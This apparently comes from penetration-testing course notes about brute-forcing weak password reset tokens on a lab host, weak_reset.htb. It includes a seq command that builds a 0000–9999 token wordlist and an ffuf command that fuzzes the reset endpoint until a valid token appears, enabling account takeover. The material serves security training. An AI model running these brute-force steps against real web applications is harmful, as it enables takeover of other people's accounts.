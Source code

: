 # Brute-Forcing Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

***

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

***

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```shell-session
$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```shell-session
$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:

```shell-session
$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

<figure><img src="../../../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>
